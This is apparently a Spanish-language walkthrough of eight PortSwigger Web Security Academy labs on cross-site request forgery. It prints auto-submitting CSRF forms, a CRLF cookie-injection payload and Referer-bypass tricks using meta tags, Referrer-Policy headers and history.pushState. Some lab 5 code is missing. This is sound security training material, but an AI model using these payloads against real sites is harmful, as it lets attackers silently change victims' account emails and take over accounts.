


# Cross-site request forgery - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/csrf](https://portswigger.net/web-security/csrf)

## Indice

* [1. Lab: CSRF vulnerability with no defenses](#1-lab-csrf-vulnerability-with-no-defenses)
* [2. Lab: CSRF where token validation depends on request method](#2-lab-csrf-where-token-validation-depends-on-request-method)
* [3. Lab: CSRF where token validation depends on token being present](#3-lab-csrf-where-token-validation-depends-on-token-being-present)
* [4. Lab: CSRF where token is not tied to user session](#4-lab-csrf-where-token-is-not-tied-to-user-session)
* [5. Lab: CSRF where token is tied to non-session cookie](#5-lab-csrf-where-token-is-tied-to-non-session-cookie)
* [6. Lab: CSRF where token is duplicated in cookie](#6-lab-csrf-where-token-is-duplicated-in-cookie)
* [7. Lab: CSRF where Referer validation depends on header being present](#7-lab-csrf-where-referer-validation-depends-on-header-being-present)
* [8. Lab: CSRF with broken Referer validation](#8-lab-csrf-with-broken-referer-validation)
* [CONCLUSION](#conclusion)

## 1. Lab: CSRF vulnerability with no defenses

```
La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF.

Para resolver el laboratorio, elabore algo de HTML que use un ataque CSRF para cambiar la dirección de correo electrónico del espectador y cárguelo en su servidor de explotación.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales: wiener:peter
```

Nos logeamos con las credenciales que nos da el laboratorio.

 

Luego de logearnos buscamos la seccion de cambio de correo e interceptamos el paquete en el burpsuite.


Entonces, luego de interceptar el paquete, podemos ver el siguiente:


Entonces, crearemos un PoC de CSRF usando las herramientas de BurpSuite.


1. Primero, damos clic derecho en la ventana del paquete interceptado.
2. Luego donde dice **Engagement tools**.
3. Luego clic en **Generate CSRF PoC**.

Y nos generara la siguiente ventana.


Entonces, como podemos ver en el codigo del PoC no tenemos ninguna linea de javascript que genere un envio automatico del formulario. Entonces, para ello lo que haremos sera ir a Options, y seleccionar **Include auto-submit script**.


Luego de ello damos clic en **Regenerate**.


Como podemos ver, ya cuenta con la linea javascript para enviar automaticamente el formulario cuando el usuario ingresa. Luego le damos clic en **Copy HTML**. Y lo enviamos al **exploit server**.


Luego de entrar al exploit server, copiamos nuestro codigo HTML y hacemos clic en **Deliver exploit to victim**.


Y como podemos ver, logramos completar el laboratorio.


## 2. Lab: CSRF where token validation depends on request method

```
La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Intenta bloquear los ataques CSRF, pero solo aplica defensas a ciertos tipos de solicitudes.

Para resolver el laboratorio, use su servidor de explotación para alojar una página HTML que use un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales:wiener:peter
```

Iniciamos sesion con las credenciales, e interceptamos el paquete de cambio de correo.



Ahora lo enviamos al repiter y luego clic derecho y seleccionamos **change request method**.


Y luego, lo que haremos sera crear el PoC del CSRF como en el laboratorio anterior.


Luego vamos al **Exploit Server**, y enviamos el exploit a la victima.


## 3. Lab: CSRF where token validation depends on token being present

```
La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF.

Para resolver el laboratorio, use su servidor de explotación para alojar una página HTML que use un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales: wiener:peter
```

Nos logeamos e ingresamos a cambiar el correo del usuario. Luego interceptamos el paquete y lo reenviamos al repiter.


Luego lo que haremos sera borrar el parametro csrf y realizar el CSRF PoC.


Luego vamos al **Exploit Server**, y enviamos el exploit a la victima.


## 4. Lab: CSRF where token is not tied to user session

```
La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Utiliza tokens para tratar de prevenir ataques CSRF, pero no están integrados en el sistema de manejo de sesiones del sitio.

Para resolver el laboratorio, use su servidor de explotación para alojar una página HTML que use un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Tiene dos cuentas en la aplicación que puede usar para ayudar a diseñar su ataque. Las credenciales son las siguientes:

wiener:peter
carlos:montoya
```

Nos logeamos e ingresamos a cambiar el correo del usuario. Luego interceptamos el paquete y lo reenviamos al repiter.


Luego de ello, como no valida a que usuario hace referencia el tocken csrf, entonces podemos enviar el mismo tocken a la victima. Generamos el PoC.


Luevo, enviamos el exploit a la victima.


## 5. Lab: CSRF where token is tied to non-session cookie

```
La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Utiliza tokens para tratar de prevenir ataques CSRF, pero no están completamente integrados en el sistema de manejo de sesiones del sitio.

Para resolver el laboratorio, use su servidor de explotación para alojar una página HTML que use un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Tiene dos cuentas en la aplicación que puede usar para ayudar a diseñar su ataque. Las credenciales son las siguientes:

wiener:peter
carlos:montoya
```

Nos logeamos e ingresamos a cambiar el correo del usuario. Luego interceptamos el paquete y lo reenviamos al repiter.



Luego podemos ver, que tambien realiza una validacion extra en una cookie, llamada **csrfKey**. Por ello, debemos buscar algun request en donde se refleje el texto ingresado en las cabeceras. Por ejemplo en la busqueda.


Como podemos ver, nuestro texto de busqueda se guarda en una cookie llamada **LastSearchTerm**. Ahora intentaremos crear otra cookie usando **CRLF** con el siguiente payload.

```
/?search=123%0d%0aSet-Cookie:%20aea=123
```

Entonces, al enviar la request vemos que se actualizo correctamente.


Ahora lo que haremos sera editar el payload para que podamos agregar la cookie **csrfhey** a nuerstro PoC.

Para poder setear la cookie con el csrfKey, vamos a usar una carga de imagen html en donde escribiremos nuestro payload anterior.

```

```

Luego al final necesitamos lanzar el formulario anterior con el contenido del CSRF. Para ello agregamos el evento.

```
onerror="document.forms[0].submit()"
```

Al final nuestro exploit final quedaria asi:

```
<form action="https://ac671f8a1fbe0aa1c0c95b0f00d100a3.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="a&#64;a&#46;x" />
  <input type="hidden" name="csrf" value="YdrxaD6DWJFAMk7PTXesSNYRu0k003Nj" />
  <input type="submit" value="Submit request" />
</form>

```

Luego, lo subimos en el **Exploit Server** y lo enviamos a la victima.


## 6. Lab: CSRF where token is duplicated in cookie

```
La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Intenta utilizar la insegura técnica de prevención CSRF de "doble envío".

Para resolver el laboratorio, use su servidor de explotación para alojar una página HTML que use un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales:wiener:peter
```

Entonces, nos logeamos e interceptamos la solicitud de cambio de correo. Luego de ello lo mandamos al repiter.


Como podemos ver, actualiza la cookie **csrf** con el mismo valor que el parametro post **csrf**. Entonces, buscaremos el lugar donde podamos setear una cookie como en el ejemplo anterior.


Entonces, actualizamos nuestro exploit con los datos anteriores.

```
<form action="https://ac4d1f931e1c1463c0382f5f00be00d7.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="a&#64;a&#46;x" />
  <input type="hidden" name="csrf" value="k9asJRrYvzxwQgdeVx9o0mIhooucRpe0" />
  <input type="submit" value="Submit request" />
</form>

```

Luego, actualizamos el exploit en el **exploit server** y lo enviamos a la victima.


## 7. Lab: CSRF where Referer validation depends on header being present

```
La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Intenta bloquear las solicitudes entre dominios, pero tiene un respaldo inseguro.

Para resolver el laboratorio, use su servidor de explotación para alojar una página HTML que use un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales:wiener:peter
```

Entonces nos logeamos con las credenciales otorgadas e interceptamos el request de cambio de correo y lo enviamos al repiter.


Luego de ello creamos el PoC del CSRF.


Luego de ello, agregamos la etiqueta meta para que no considere el Referer de nuestro **exploit server**

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <meta name="referrer" content="never">
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac881f6f1e3b5e28c0c35ffe008200b7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="a&#64;a&#46;a" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Luego de ello, lo escribimos en el **exploit server** y lo enviamos a la victima.


## 8. Lab: CSRF with broken Referer validation

```
La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Intenta detectar y bloquear solicitudes entre dominios, pero el mecanismo de detección se puede omitir.

Para resolver el laboratorio, use su servidor de explotación para alojar una página HTML que use un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales: wiener:peter
```

Entonces nos logeamos con las credenciales otorgadas e interceptamos el request de cambio de correo y lo enviamos al repiter.


Luego de ello creamos el PoC del CSRF.


Luego de ello, lo que requerimos es que nuestra url contenga el dominio de la pagina victima. Por ello lo editaremos en el **exploit server**.

En la seccion de **HEAD** debemos agregar el siguiente header:

```
Referrer-Policy: unsafe-url
```

Esto es para que el navegador no nos borre la url completa del referer.

Por ello en la seccion de **<script>** vamos a editar el historial para colocar el dominio.

```
<script>history.pushState('', '', '/?ac2b1ffb1e786893c031bc8200e300d0.web-security-academy.net')</script>
```

Entonces nuestro exploit quedaria asi:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/exploit?ac2b1ffb1e786893c031bc8200e300d0.web-security-academy.net')</script>
    <form action="https://ac2b1ffb1e786893c031bc8200e300d0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="a&#64;a&#46;a" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Luego de ello, lo escribimos en el **exploit server** y lo enviamos a la victima.


## CONCLUSION

Al inicio crei que los laboratorios iban a ser sencillos, aunque el **laboratorio 5** sobre CRLF me dejo sorprendido. Tambien el **Laboratorio 8** en donde editamos el historial para realizar el referer y agregamos la cabecera **Referrer-Policy: unsafe-url**


